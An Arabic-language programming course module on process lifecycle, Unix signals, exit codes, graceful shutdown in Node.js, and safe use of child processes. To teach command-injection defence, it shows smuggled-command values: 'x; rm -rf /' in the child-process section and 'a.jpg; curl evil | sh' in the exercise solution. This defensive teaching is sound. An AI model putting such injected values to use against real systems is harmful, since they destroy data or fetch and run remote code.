



# Module 2.5 — العملية بعمق: دورة الحياة، الإشارات، الإغلاق الرشيق
## Process Deep Dive: lifecycle, env, exit codes, signals, graceful shutdown, child processes

> **المستوى:** Level 2 | **الموقع:** [5 من 13]
> **السابق:** [M2.4 — Operating Systems](module-2.4-operating-systems.md) | **التالي:** [M2.6 — Threads](module-2.6-threads.md)

---

## 1. المتطلبات
- [ ] البرنامج vs العملية، PID، exit codes — [L0-M0.3](../level-0-absolute-foundations/module-03-running-a-program.md)
- [ ] متغيرات البيئة — [L0-M0.4](../level-0-absolute-foundations/module-04-files-terminal-shell.md)
- [ ] syscalls، fds، المجدوِل — [M2.4](module-2.4-operating-systems.md)
- [ ] async والمهلات — [L1-M1.11](../level-1-programming/module-1.11-async-event-loop.md)

## 2. أهداف التعلّم
- وصف دورة حياة العملية: `fork` → `exec` → تشغيل → `exit` → zombie → reaped، وشجرة العمليات (PPID، PID 1).
- شرح **الإشارات** (signals): `SIGINT`, `SIGTERM`, `SIGKILL`, `SIGHUP`, `SIGSEGV`… أيها يمكن التقاطه وأيها لا.
- تنفيذ **إغلاق رشيق** (graceful shutdown) صحيح في Node: توقف عن قبول الجديد، أنهِ الجاري، أغلق الموارد، اخرج برمز، مع مهلة قصوى.
- فهم لماذا يرسل Docker/Kubernetes/systemd `SIGTERM` ثم `SIGKILL` بعد مهلة، ومشكلة **PID 1**.
- استخدام `child_process` (`spawn` vs `exec`) بأمان، وقراءة stdout/stderr/exit code للأبناء، وتجنّب حقن الأوامر.
- التمييز بين **uncaught exception / unhandled rejection** وسلوك Node الافتراضي (الانهيار) ولماذا هو الصحيح.

---

## 3. شرح للمبتدئ

### كيف تولد العملية؟
في Unix لا يوجد syscall اسمه "شغّل برنامجًا". هناك اثنان:
1. **`fork()`**: انسخ العملية الحالية (ابن بـ PID جديد، نفس الكود والذاكرة — بـ copy-on-write من M2.4).
2. **`exec()`**: استبدل كود/ذاكرة العملية الحالية ببرنامج آخر (الـ PID يبقى).

الـ shell يفعل `fork` ثم في الابن `exec("node", ["app.js"])`. لهذا كل عملية لها **أب** (PPID)، والنتيجة **شجرة** جذرها **PID 1** (`init`/`systemd`). `pstree` أو `ps -ef --forest` يريكها.

### الموت وما بعده
العملية تنتهي بـ `exit(code)` (أو تُقتل). تحرّر النواة ذاكرتها وfds **لكن تبقي سجلًا صغيرًا** (رمز الخروج) حتى يقرأه الأب بـ `wait()`. في هذه الفترة هي **zombie** (`<defunct>` في `ps`). إن مات الأب قبل الابن، يُتبنّى الابن بـ PID 1 الذي يجب أن يجمع (reap) الزومبي. **هنا مشكلة Docker الشهيرة:** إن كان `node` هو PID 1 في الحاوية، فهو لا يجمع الأيتام ولا يعالج الإشارات افتراضيًا كما يفعل init → زومبي تتراكم و`docker stop` ينتظر 10 ثوانٍ ثم يقتل. الحل: `tini`/`dumb-init` أو `docker run --init` (L5-M11).

### رموز الخروج — المعنى الاصطلاحي
| الرمز | المعنى |
|---|---|
| 0 | نجاح |
| 1 | خطأ عام (Node: استثناء غير ملتقط) |
| 2 | سوء استخدام (اتفاق shell/الأدوات، L1-M1.9) |
| 126/127 | لا يمكن التنفيذ / الأمر غير موجود (shell) |
| 128+N | **قُتلت بإشارة N**: 130 = SIGINT (Ctrl+C)، 137 = SIGKILL (9)، 143 = SIGTERM (15) |

**137 في سجلات Docker/K8s = OOM killer أو `kill -9`** — ليس خطأ في كودك بل قتلٌ من الخارج (M2.4). احفظ هذا الرقم.

### الإشارات (Signals): رسائل من OS إلى العملية
الإشارة = رقم صغير يُرسل للعملية **بشكل غير متزامن** (في أي لحظة). للعملية ثلاثة خيارات لكل إشارة: السلوك الافتراضي، التجاهل، أو **معالج** (handler) خاص — **إلا اثنتين لا يمكن التقاطهما أو تجاهلهما**: `SIGKILL` و`SIGSTOP`.

| الإشارة | الرقم | من يرسلها | الافتراضي | هل تُلتقط؟ | ماذا تفعل في Node |
|---|---|---|---|---|---|
| **SIGINT** | 2 | Ctrl+C في الطرفية | إنهاء | ✅ | إغلاق رشيق |
| **SIGTERM** | 15 | `kill PID`، Docker/K8s/systemd عند الإيقاف | إنهاء | ✅ | **إغلاق رشيق** (الأهم) |
| **SIGKILL** | 9 | `kill -9`، OOM killer، بعد انتهاء مهلة SIGTERM | قتل فوري | ❌ | لا شيء؛ لن ترى شيئًا |
| SIGHUP | 1 | إغلاق الطرفية؛ اصطلاحًا "أعد تحميل الإعدادات" | إنهاء | ✅ | إعادة تحميل config/إعادة فتح السجل |
| SIGUSR1/2 | 10/12 | مخصّصة لك | إنهاء | ✅ | Node يفتح المصحّح على USR1 |
| SIGSEGV | 11 | النواة (وصول ذاكرة غير صالح) | إنهاء + core dump | ⚠️ | لا تلتقطها؛ خلل في native addon |
| SIGPIPE | 13 | كتابة في أنبوب مغلق (`node x | head`) | إنهاء | ✅ | Node يتجاهلها افتراضيًا ويعطي `EPIPE` |

في Node: `process.on("SIGTERM", handler)`. **تحذير:** بمجرد تسجيل معالج، **أنت** المسؤول عن الخروج — إن لم تستدعِ `process.exit` أو تغلق كل الـ handles، لن تخرج العملية أبدًا.

### الإغلاق الرشيق (Graceful Shutdown) — الوصفة
المشكلة: `SIGTERM` يصل بينما خادمك يعالج 50 طلبًا، ومعاملة DB في منتصفها، ورسالة طابور لم تُؤكَّد. الخروج الفوري = طلبات مقطوعة بـ `ECONNRESET` عند العملاء، بيانات نصف مكتوبة. الوصفة القياسية:

1. **توقف عن قبول عمل جديد**: `server.close()` (يغلق المنفذ؛ الاتصالات الجارية تستمر)، ألغِ الاشتراك في الطابور، أعلن "غير صحي" لموازن الحمل (`/health` يعيد 503) **قبل** ذلك ببضع ثوانٍ إن أمكن.
2. **أنهِ الجاري**: انتظر الطلبات الحالية؛ أغلق keep-alive idle connections (`server.closeIdleConnections()`).
3. **أغلق الموارد بالترتيب العكسي**: pool DB، اتصالات Redis، ملفات السجل (flush).
4. **مهلة قصوى** (مثلًا 10 ثوانٍ، أقل من مهلة المنظّم): بعدها `process.exit(1)` قسرًا — الأفضل خروج قذر من تعليق أبدي.
5. **اخرج برمز**: 0 إن نظيف، ≠0 إن مهلة/فشل.
6. **مرة واحدة**: إشارة ثانية أثناء الإغلاق → خروج فوري (المشغّل يضغط Ctrl+C مرتين لسبب).

لماذا يرسل المنظّم SIGTERM ثم ينتظر (Docker: 10s، K8s: `terminationGracePeriodSeconds` 30s) ثم SIGKILL؟ لأنه يفترض أنك تنفّذ هذه الوصفة. إن لم تفعل، كل نشر (deploy) = أخطاء للمستخدمين. **النشر بلا توقف (zero-downtime) يبدأ هنا**، لا في Kubernetes.

### الاستثناءات غير الملتقطة: لماذا ينهار Node ولماذا هذا صحيح
`uncaughtException` و`unhandledRejection` → Node يطبع ويخرج بـ 1. البعض يضيف `process.on("uncaughtException", () => {})` "ليبقى الخادم حيًا". **هذا خطأ خطير**: بعد استثناء غير متوقع، حالة البرنامج **مجهولة** (قفل لم يُحرَّر؟ معاملة معلّقة؟ عدّاد خاطئ؟). المتابعة = فساد صامت (L1-M1.9 fail fast). الصحيح: **سجّل → إغلاق رشيق سريع → اخرج ≠0 → دع المنظّم يعيد التشغيل** (systemd `Restart=always`، Docker `--restart`, K8s). المرونة تأتي من **إعادة التشغيل والنسخ المتعددة**، لا من ابتلاع الأخطاء.

### العمليات الأبناء (Child Processes)
```typescript
import { spawn, execFile } from "node:child_process";
// spawn: streaming، لا shell، آمن مع المدخلات — الافتراضي الصحيح
const child = spawn("git", ["log", "--oneline", "-n", "5"], { stdio: ["ignore", "pipe", "pipe"] });
child.stdout.on("data", chunk => process.stdout.write(chunk));
child.on("close", (code, signal) => console.log("exit", code, signal));
```
- **`exec(cmd)`** يمرّ عبر shell (`/bin/sh -c`): مريح للأنابيب، لكن **`exec("convert " + userFilename)`** = **حقن أوامر** (command injection): اسم ملف `x; rm -rf /` ينفَّذ. استخدم `spawn/execFile` بمصفوفة وسائط **دائمًا** مع أي مدخل خارجي.
- الابن يرث البيئة وcwd (أو تحددها)؛ له PID وحياته الخاصة؛ يجب أن تستهلك stdout/stderr وإلا امتلأ الأنبوب (64KB) **وتجمّد الابن** (deadlock كلاسيكي مع `exec` + `maxBuffer`).
- اقتل الأبناء عند إغلاقك (`child.kill("SIGTERM")`) وإلا صاروا أيتامًا. الأبناء **لا يموتون تلقائيًا** بموت الأب.
- `fork()` في Node = ابن Node مع قناة IPC؛ `cluster` يبني عليه لتشغيل نسخة لكل نواة (M2.7).

---

## 4. النموذج الذهني

```
fork → exec → running → exit(code) → zombie → reaped by parent (أو PID 1)
شجرة: PID 1 ← shell ← node ← children

exit code: 0 ok | 1 error | 2 usage | 128+N killed by signal N (137 = SIGKILL/OOM, 143 = SIGTERM)

signals: SIGINT (Ctrl+C) / SIGTERM (المنظّم) → التقط → إغلاق رشيق
         SIGKILL → لا يُلتقط → لا فرصة
graceful: stop accepting → drain → close resources → force-exit timeout → exit code → مرة واحدة
uncaught → سجّل، أغلق بسرعة، اخرج ≠0، دع المنظّم يعيد التشغيل
children: spawn/execFile بمصفوفة (لا exec+نص)؛ استهلك المخرجات؛ اقتلهم عند الإغلاق
```

## 5. الرسم التوضيحي







## 6. مثال بسيط

```typescript
// src/signals.ts — شاهد الإشارات ورموز الخروج بنفسك
console.log(`pid ${process.pid}  (try: kill -TERM ${process.pid} | kill -INT ${process.pid} | kill -9 ${process.pid})`);
for (const sig of ["SIGINT", "SIGTERM", "SIGHUP"] as const) {
  process.on(sig, () => { console.log(`\ngot ${sig} → cleaning up for 1s…`); setTimeout(() => process.exit(sig === "SIGINT" ? 130 : 0), 1000); });
}
process.on("exit", code => console.log(`exit handler: code ${code}`));   // يُنفَّذ دائمًا إلا مع SIGKILL
setInterval(() => process.stdout.write("."), 500);
```
```bash
npx tsx src/signals.ts & PID=$!; sleep 2; kill -TERM $PID; wait $PID; echo "shell saw exit=$?"   # 0
npx tsx src/signals.ts & PID=$!; sleep 2; kill -9 $PID;    wait $PID; echo "shell saw exit=$?"   # 137 — لا "cleaning up"، لا exit handler
```

## 7. مثال كود

```typescript
// src/graceful-server.ts — خادم HTTP بإغلاق رشيق كامل (قالب تعيد استخدامه في Projects 3–6)
import { createServer } from "node:http";
import { setTimeout as sleep } from "node:timers/promises";

const PORT = Number(process.env.PORT ?? 3000);
const SHUTDOWN_TIMEOUT_MS = Number(process.env.SHUTDOWN_TIMEOUT_MS ?? 10_000);

let healthy = true;
let inFlight = 0;

// "مورد خارجي" وهمي بإغلاق بطيء (يمثل pool DB / Redis)
const db = { async query(ms: number) { await sleep(ms); return { ok: true }; }, async end() { await sleep(300); console.log("[db] pool closed"); } };

const server = createServer(async (req, res) => {
  if (req.url === "/health") { res.writeHead(healthy ? 200 : 503, { "content-type": "application/json" }); return res.end(JSON.stringify({ healthy, inFlight })); }
  inFlight++;
  try {
    const result = await db.query(req.url === "/slow" ? 5000 : 50);        // طلب بطيء عمدًا لاختبار الـ drain
    res.writeHead(200, { "content-type": "application/json" }); res.end(JSON.stringify(result));
  } catch { res.writeHead(500); res.end("error"); }
  finally { inFlight--; }
});

server.keepAliveTimeout = 5000;
server.listen(PORT, () => console.log(`[server] pid ${process.pid} listening on :${PORT}`));

let shuttingDown = false;
async function shutdown(reason: string, code = 0) {
  if (shuttingDown) { console.log(`[shutdown] second ${reason} → forcing exit`); process.exit(130); }   // إشارة ثانية = فورًا
  shuttingDown = true;
  console.log(`[shutdown] ${reason}: start (inFlight=${inFlight})`);

  const force = setTimeout(() => { console.error(`[shutdown] timeout after ${SHUTDOWN_TIMEOUT_MS}ms, exiting dirty`); process.exit(1); }, SHUTDOWN_TIMEOUT_MS);
  force.unref();                                     // لا تُبقِ العملية حية بسبب هذا المؤقّت نفسه

  healthy = false;                                   // 1) أعلن عدم الصحة (موازن الحمل يتوقف عن إرسال جديد)
  await sleep(500);                                  //    مهلة قصيرة ليلاحظ موازن الحمل (في الإنتاج: 2–5s)
  await new Promise<void>(resolve => server.close(() => resolve()));   // 2) أغلق المنفذ؛ الجاري يستمر
  server.closeIdleConnections();                     //    أغلق keep-alive الخاملة
  while (inFlight > 0) await sleep(100);             // 3) انتظر الجاري
  await db.end();                                    // 4) الموارد بالترتيب العكسي
  clearTimeout(force);
  console.log(`[shutdown] clean, exit ${code}`);
  process.exit(code);                                // 5) رمز الخروج
}

process.on("SIGTERM", () => void shutdown("SIGTERM"));
process.on("SIGINT", () => void shutdown("SIGINT"));
process.on("uncaughtException", err => { console.error("[fatal] uncaught", err); void shutdown("uncaughtException", 1); });
process.on("unhandledRejection", err => { console.error("[fatal] unhandled rejection", err); void shutdown("unhandledRejection", 1); });
```

```bash
npx tsx src/graceful-server.ts & PID=$!; sleep 1
curl -s localhost:3000/slow & sleep 0.3           # طلب بطيء جارٍ
kill -TERM $PID                                   # أثناءه
curl -s -o /dev/null -w "%{http_code}\n" localhost:3000/health   # 503 أو connection refused (المنفذ أُغلق)
wait $PID; echo "exit=$?"                         # الطلب البطيء يكتمل بـ {"ok":true} ثم exit=0 بعد ~5s
```

## 8. مثال من العالم الحقيقي
- `Ctrl+C` في `npm run dev` = SIGINT إلى مجموعة العمليات؛ أدوات مثل tsx تمرّرها للابن.
- `docker stop` = SIGTERM + 10s + SIGKILL. `docker kill` = SIGKILL مباشرة.
- Kubernetes rolling update: يزيل الـ Pod من Service، يرسل SIGTERM، ينتظر `terminationGracePeriodSeconds`، ثم SIGKILL. تطبيق بلا إغلاق رشيق = أخطاء 502 في كل نشر.
- `nginx -s reload` = SIGHUP: يعيد قراءة الإعدادات دون إسقاط اتصال.

## 9. مثال من الإنتاج
**حادثة "الدفعات المكررة عند كل نشر":** خدمة دفع تستهلك رسائل من طابور؛ عند `SIGTERM` كانت تخرج فورًا. رسالة في منتصف المعالجة: الدفع أُرسل للبنك لكن الـ ack للطابور لم يُرسل → بعد إعادة التشغيل تُعاد المعالجة → **دفع مزدوج** لعشرات العملاء مع كل نشر. الإصلاحان المتكاملان: (1) إغلاق رشيق: توقف عن سحب رسائل جديدة، أكمل الجارية، ثم اخرج؛ (2) **idempotency key** على طلب البنك (L0-M0.6، L7-M2) لأن SIGKILL/انقطاع الكهرباء سيحدثان يومًا رغم كل شيء. **الدرس:** الإغلاق الرشيق يقلّل الاحتمال؛ الـ idempotency يجعل البقية آمنة. تحتاج الاثنين.

## 10. مفاهيم خاطئة شائعة

| ❌ | ✅ |
|---|---|
| "`kill` يعني قتل" | `kill` يرسل إشارة (افتراضيًا SIGTERM = طلب مهذب). `kill -9` هو القتل. |
| "التقاط SIGKILL ممكن بطريقة ما" | مستحيل بالتصميم. خطّط لحدوثه (idempotency، معاملات). |
| "التقاط `uncaughtException` يجعل الخادم أمتن" | يجعله **أخطر**: حالة مجهولة. سجّل واخرج ودع المنظّم يعيد التشغيل. |
| "الأبناء يموتون مع الأب" | لا؛ يُتبنّون بـ PID 1. اقتلهم صراحة. |
| "exit 137 = bug في كودي" | = قُتلت بـ SIGKILL (OOM غالبًا). ابحث في `dmesg`/أحداث K8s. |
| "`process.exit()` في أي مكان مقبول" | يقطع كل شيء فورًا (كتابات معلّقة تضيع). استخدمه فقط في نهاية مسار الإغلاق. |

## 11. أخطاء شائعة
1. تسجيل معالج `SIGTERM` ثم نسيان الخروج → العملية لا تموت → SIGKILL بعد المهلة.
2. لا مهلة قصوى للإغلاق → تعليق على اتصال DB لا يُغلق.
3. `exec("cmd " + userInput)` → حقن أوامر.
4. عدم استهلاك stdout للابن → يتجمّد عند 64KB.
5. تشغيل Node كـ PID 1 في Docker بلا `--init`.
6. `process.exit(0)` قبل اكتمال `await writeFile` (L1-M1.11).

## 12. تمرين تصحيح

```typescript
// عامل معالجة صور: بعد النشر، K8s يسجّل "Killed (137)" لكل Pod قديم بعد 30 ثانية، وبعض الصور تُفقد.
process.on("SIGTERM", () => { console.log("bye"); });
process.on("uncaughtException", () => { /* keep alive */ });
queue.on("message", async (msg) => {
  const child = exec(`convert ${msg.path} -resize 800x ${msg.path}.out`);
  await waitFor(child);
  await queue.ack(msg);
});
```
أربع مشاكل مستقلة على الأقل. رتّبها حسب الخطورة واشرح الـ 137.

<details><summary>💡 الحل</summary>

1. **معالج SIGTERM لا يخرج** (يطبع فقط) → العملية تستمر بسحب رسائل جديدة 30 ثانية ثم **SIGKILL (137)** من K8s في منتصف معالجة → الرسالة غير مؤكَّدة تُعاد (جيد) لكن أي عملية بلا idempotency تتكرر، وأبناء `convert` يُتركون أيتامًا. الحل: الوصفة الكاملة — توقف عن الاستهلاك، انتظر الجارية (بحد زمني < 30s)، اقتل الأبناء، `exit`.
2. **`exec` بنص** مع `msg.path` من الخارج = **حقن أوامر**: مسار `a.jpg; curl evil | sh`. الأخطر أمنيًا. الحل: `execFile("convert", [msg.path, "-resize", "800x", out])`.
3. **ابتلاع `uncaughtException`** → بعد خطأ، الحالة مجهولة (رسالة قد تبقى بلا ack للأبد أو تُؤكَّد خطأً = **صور تُفقد**). الحل: سجّل وأغلق رشيقًا بـ 1.
4. عدم استهلاك مخرجات الابن/`maxBuffer` → تجمّد مع صور تُنتج تحذيرات كثيرة؛ ولا `kill` للابن عند الإغلاق.
5. إضافة: `ack` بعد النجاح فقط صحيح ✅ — لكن اجعل الكتابة ذرّية (`.out.tmp` ثم rename، L1-M1.10) حتى لا يترك SIGKILL ملفًا نصفيًا يُعتبر ناتجًا.
</details>

## 13. تمرين معماري
صمّم عقد "دورة الحياة" لكل خدمة في شركتك (سيُفرض عبر قالب): ما ترتيب الإغلاق، ما الحد الأقصى (وعلاقته بمهلة المنظّم)، كيف يعلن `/health` و`/ready` الحالتين المختلفتين (حيّ vs جاهز لاستقبال حركة)، ماذا يحدث للمهام الطويلة (>30s) التي لا يمكن إنهاؤها في المهلة (checkpoint؟ إعادة إدراج في الطابور؟)، وكيف تختبر الإغلاق الرشيق آليًا في CI (أرسل SIGTERM أثناء حمل وتحقق من صفر أخطاء). ACTRR.

## 14. الصلة بعصر AI
AI يكتب خوادم بلا معالجة إشارات، ويضيف `process.on("uncaughtException", log)` "للمتانة"، ويستخدم `exec` بنصوص مركّبة. عند طلب أي خدمة طويلة التشغيل أضف للبرومبت: *"إغلاق رشيق على SIGTERM/SIGINT بمهلة قصوى، لا ابتلاع uncaught، `execFile` بمصفوفة وسائط"*. وفي المراجعة ابحث عن: `process.on(` بلا `exit` في المسار، `exec(` + علامة `+` أو `${`.

## 15–17. Master / Understand / Defer
- 🔴 fork/exec وشجرة العمليات وPID 1؛ جدول exit codes (137/143)؛ SIGINT/SIGTERM/SIGKILL ومن يرسلها وأيها يُلتقط؛ **وصفة الإغلاق الرشيق الست**؛ لماذا لا تبتلع uncaught؛ `spawn/execFile` بمصفوفة وخطر `exec`.
- 🟠 zombie/reaping وDocker `--init`؛ SIGHUP لإعادة التحميل؛ `/health` vs `/ready`؛ `unref()`؛ استهلاك مخرجات الأبناء وقتلهم؛ العلاقة بين مهلة الإغلاق ومهلة المنظّم.
- ⚪ core dumps وتحليلها؛ `setsid`/مجموعات العمليات/`nohup`؛ `cluster` بالتفصيل (M2.7)؛ systemd units وsocket activation؛ seccomp/capabilities.

## 18. الخلاصة
1. العملية تولد بـ fork/exec وتموت بـ exit ثم تُجمع؛ شجرة جذرها PID 1.
2. **128+N** = قُتلت بإشارة N؛ **137 = SIGKILL/OOM**.
3. SIGTERM طلب مهذب تلتقطه؛ SIGKILL لا يُلتقط — صمّم لكليهما.
4. **الإغلاق الرشيق:** أعلن عدم الصحة → أغلق المنفذ → أنهِ الجاري → أغلق الموارد → مهلة قصوى → رمز خروج.
5. استثناء غير متوقع = سجّل واخرج ≠0؛ المتانة من إعادة التشغيل لا من الابتلاع.
6. الأبناء: `spawn/execFile` بمصفوفة، استهلك مخرجاتهم، اقتلهم عند الإغلاق.

## 19. مراجع رسمية
- Node.js — `process` events & signals: https://nodejs.org/api/process.html#signal-events
- Node.js — `server.close()` / `closeIdleConnections()`: https://nodejs.org/api/http.html#serverclosecallback
- Node.js — Child processes: https://nodejs.org/api/child_process.html
- Linux man-pages — `signal(7)`: https://man7.org/linux/man-pages/man7/signal.7.html
- Docker — `docker stop` / `--init`: https://docs.docker.com/reference/cli/docker/container/run/#init
- Kubernetes — Pod termination: https://kubernetes.io/docs/concepts/workloads/pods/pod-lifecycle/#pod-termination

## المصطلحات
| العربية | English |
|---|---|
| تفرّع / استبدال | fork / exec |
| العملية الأب / الابن | Parent / Child process |
| شجرة العمليات | Process tree |
| عملية زومبي / جمع | Zombie / Reaping |
| إشارة | Signal |
| معالج إشارة | Signal handler |
| إغلاق رشيق | Graceful shutdown |
| تصريف الطلبات | Draining |
| فترة السماح | Grace period |
| فحص الصحة / الجاهزية | Health / Readiness check |
| استثناء غير ملتقط | Uncaught exception |
| حقن أوامر | Command injection |
| قناة اتصال بين العمليات | IPC (Inter-Process Communication) |
| منظّم | Orchestrator |

> **التالي:** [Module 2.6 — Threads](module-2.6-threads.md)
